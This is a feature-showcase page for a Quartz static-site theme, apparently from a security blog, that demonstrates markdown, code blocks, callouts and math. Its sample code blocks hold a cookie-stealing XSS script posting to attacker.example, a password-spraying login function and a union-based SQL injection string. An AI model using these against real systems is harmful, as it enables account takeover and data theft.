



This page is a living reference for everything Quartz v5 can render. Use it to test the theme and verify features work after config changes.

---

## Inline Formatting

Regular body text is IBM Plex Mono at `line-height: 1.7`. Readability first.

**Bold text** stands out from body. *Italic* for titles and emphasis. ~~Strikethrough~~ for corrections.

Combined: **bold _nested italic_** and `inline code` in a sentence.

==Highlighted text== via Obsidian `==syntax==`.

A [named external link](https://example.com) renders in blue. An internal [[XSS-Attack-Vectors|wikilink to the XSS post]] shows with a subtle background.

Automatic bare-URL links: https://github.com/newbiefromcoma

---

# Headings

All six heading levels below. h1–h2 use Departure Mono; h3–h6 use JetBrains Mono.

## H2 Heading

### H3 Heading

#### H4 Heading

##### H5 Heading

###### H6 Heading

---

## Lists

### Unordered

- Top level item
- Another item
  - Nested item
  - Another nested
    - Deeply nested
- Back to top level

### Ordered

1. First step
2. Second step
   1. Sub-step
   2. Another sub-step
3. Third step

### Task Lists (Checkboxes)

- [x] Reconnaissance complete
- [x] Vulnerability identified
- [ ] Exploit developed
- [ ] Report written
- [ ] Patched

---

## Blockquotes

> "The quieter you become, the more you are able to hear."
> — Kali Linux boot screen

Nested quote:

> Outer quote text here.
>
> > Inner nested quote. Also supports **bold** and `code`.

---

## Tables

| Tool | Category | Notes |
|---|---|---|
| `nmap` | Port scanning | `-sV` for version detection |
| `burpsuite` | Web proxy | Community edition is free |
| `sqlmap` | SQL injection | `--level 5 --risk 3` for thorough scan |
| `ffuf` | Fuzzing | Fast, wordlist-driven |
| `gobuster` | Directory brute | `-x php,html,txt` for extension sweeps |

Column alignment:

| Left aligned | Center aligned | Right aligned |
|:---|:---:|---:|
| item | value | 1337 |
| another | thing | 80 |

---

## Code Blocks

### Bash

```bash
# Enumerate subdomains via Certificate Transparency
curl -s "https://crt.sh/?q=%.example.com&output=json" \
  | jq -r '.[].name_value' \
  | sort -u \
  | grep -v '\*'
```

### Python

```python
import requests

def spray_usernames(usernames: list[str], password: str, domain: str) -> list[str]:
    valid = []
    for user in usernames:
        r = requests.post(
            f"https://{domain}/api/login",
            json={"username": user, "password": password},
            timeout=5,
        )
        if r.status_code == 200:
            valid.append(user)
    return valid
```

### JavaScript

```javascript
// XSS payload that exfiltrates cookies
const exfil = (data) =>
  fetch(`https://attacker.example/collect?d=${encodeURIComponent(data)}`);

document.addEventListener('DOMContentLoaded', () => {
  exfil(document.cookie);
});
```

### JSON

```json
{
  "target": "example.com",
  "scan_type": "full",
  "ports": [80, 443, 8080, 8443],
  "options": {
    "service_detection": true,
    "os_detection": false
  }
}
```

### SQL (injection example)

```sql
-- Union-based injection to extract schema
' UNION SELECT table_name, column_name, NULL
FROM information_schema.columns
WHERE table_schema = database()-- -
```

---

## Callouts

Obsidian-flavored callout syntax. Click the title to collapse (default: expanded).

> [!note] Note
> General information. Use for background context or factual additions.

> [!info] Info
> Neutral informational callout. Similar to note but typically non-collapsible in Obsidian.

> [!tip] Tip
> Helpful trick or shortcut worth highlighting.

> [!warning] Warning
> Proceed with caution. Common for security warnings or destructive operations.

> [!danger] Danger
> High-severity alert. Use for irreversible actions or critical vulnerabilities.

> [!bug] Bug
> Known issue or defect. Useful in bug writeups or issue tracking.

> [!success] Success
> Positive outcome or completed step.

> [!failure] Failure
> Something went wrong or a step failed.

> [!example] Example
> Concrete example block. Good for payload walkthroughs.

> [!quote] Quote
> Attributed quotation.

Collapsible callout (starts closed):

> [!warning]- Collapsible warning (click to expand)
> This content is hidden by default. The `-` after the type makes it start collapsed; `+` makes it start expanded.

---

## Math — KaTeX

Inline math: $E = mc^2$ and $f(x) = \frac{1}{\sigma\sqrt{2\pi}} e^{-\frac{1}{2}\left(\frac{x-\mu}{\sigma}\right)^2}$

Block equations:

$$
\sum_{n=1}^{\infty} \frac{1}{n^2} = \frac{\pi^2}{6}
$$

SHA-256 digest length in bits:

$$
H : \{0,1\}^* \to \{0,1\}^{256}
$$

RSA key relation:

$$
d \cdot e \equiv 1 \pmod{\phi(n)}
$$

---

## Mermaid Diagrams

Flowchart — attack chain:



Sequence diagram — auth flow:



State diagram:



---

## Footnotes

Inline footnote references[^1] appear as superscripts. Multiple footnotes[^2] stack. Long footnote content[^3] renders at the bottom of the page.

[^1]: First footnote. Supports **bold**, `code`, and [links](https://example.com).
[^2]: Second footnote. Numbers are assigned automatically regardless of the label used.
[^3]: This is a longer footnote that spans multiple ideas. It demonstrates that footnote content can be detailed without cluttering the main article flow. Security researchers often use footnotes for CVE references, tool version caveats, or disclosures.

---

## Internal Links and Wikilinks

Basic wikilink: [[OSINT-Recon-Methodology]]

Custom display text: [[OSINT-Recon-Methodology|OSINT Methodology writeup]]

Link to a specific heading: [[XSS-Attack-Vectors#The Three Variants]]

Wikilinks power the **graph view** in the right sidebar — every link here creates an edge between these nodes. High-connectivity nodes appear larger in the graph.

---

## File Transclusion (Embeds)

Embed another note inline using `![[filename]]`. The content renders in-place:

> **Note:** Transclusion of external files is supported via the OFM plugin. Example syntax:
> ```
> ![[OSINT-Recon-Methodology#Phase 1: Seed the Graph]]
> ```
> This embeds just the referenced section. The target file must exist in the content directory.

Block references use `^block-id` syntax at the end of any paragraph. ^block-ref-demo

Reference the block above from another file: `![[Quartz-Features-Showcase#^block-ref-demo]]`

---

## Images

Images with alt text and optional sizing:

```markdown
![[image.png]]
![[image.png|alt text]]
![[image.png|200]]           ← resize to 200px width
![[image.png|alt text|200]]
```

External images work too:

```markdown

```

---

## Tags

Tags appear in the frontmatter and can also be written inline in content using `#tag-name` syntax. They create filterable index pages at `/tags/<tag-name>`.

This page's tags: `#meta` `#showcase` `#quartz` `#reference`

Inline: #pentesting #web-security

---

## Horizontal Rules

Three dashes `---` creates a horizontal rule styled to match the dashed border theme.

---

## Encrypted Pages

Add a `password` field to frontmatter to encrypt a page. The content is AES-256 encrypted at build time; visitors must enter the password to read it.

```yaml
---
title: "Sensitive Notes"
password: hunter2
---
```

The encrypted page plugin is enabled with 600,000 PBKDF2 iterations. The encryption key never leaves the browser.

---

## Canvas Files

`.canvas` files (Obsidian canvas format) are rendered as visual node graphs by the `canvas-page` plugin. Create a `yourfile.canvas` alongside your markdown files — Quartz auto-generates a page at the same URL path.

---

## Properties / Frontmatter

Every page shows its frontmatter via the `note-properties` plugin (the collapsible section above the article). Currently configured to show: `description`, `tags`, and `aliases`.

Supported property types in YAML frontmatter:
- `string` — `title: "My Post"`
- `array` — `tags: [a, b, c]` or block list
- `date` — `date: 2026-01-01`
- `boolean` — `draft: true`
- `aliases` — creates redirect pages via the `alias-redirects` plugin

---

## RSS and Sitemap

The `content-index` plugin generates:
- `/index.xml` — RSS 2.0 feed of all published content
- `/sitemap.xml` — XML sitemap for search engines

Both are updated on every build.

---

## Graph View

The interactive graph in the right sidebar shows relationships between pages. Every `[[wikilink]]` creates an edge. Nodes are sized by connection count. Click to navigate; scroll to zoom; drag to reposition.

---

## What Requires Special Setup

| Feature | Status | Notes |
|---|---|---|
| Callouts | ✅ Enabled | `obsidian-flavored-markdown` plugin |
| Mermaid | ✅ Enabled | Bundled with OFM plugin |
| Math (KaTeX) | ✅ Enabled | `latex` plugin |
| Syntax highlighting | ✅ Enabled | `syntax-highlighting` (Shiki) |
| Note properties | ✅ Enabled | `note-properties` plugin |
| Wikilinks | ✅ Enabled | OFM plugin |
| Task lists | ✅ Enabled | OFM plugin (`enableCheckbox: true`) |
| Footnotes | ✅ Enabled | GFM / remark-gfm |
| Tables | ✅ Enabled | `github-flavored-markdown` |
| Encrypted pages | ✅ Enabled | `encrypted-pages` plugin |
| Canvas | ✅ Enabled | `canvas-page` plugin |
| RSS/Sitemap | ✅ Enabled | `content-index` plugin |
| YouTube embeds | ⚠️ Manual | Use `<iframe>` HTML directly |
| Tweet embeds | ⚠️ Manual | HTML or third-party embed script |
| Comments | 🔧 Config needed | `comments` plugin (Giscus, disabled by default) |
| Citations / BibTeX | 🔧 Config needed | `citations` plugin (disabled) |
